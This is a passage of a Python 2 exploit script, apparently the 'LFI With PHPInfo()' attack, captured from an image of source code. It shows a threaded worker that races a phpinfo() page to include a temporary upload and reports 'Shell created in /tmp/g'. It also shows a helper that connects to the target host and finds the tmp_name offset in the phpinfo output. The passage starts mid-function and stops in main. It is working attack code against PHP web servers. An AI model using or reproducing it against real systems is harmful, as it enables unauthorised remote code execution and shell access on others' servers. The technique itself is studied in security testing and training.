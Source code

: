 ```python
    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256

def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
```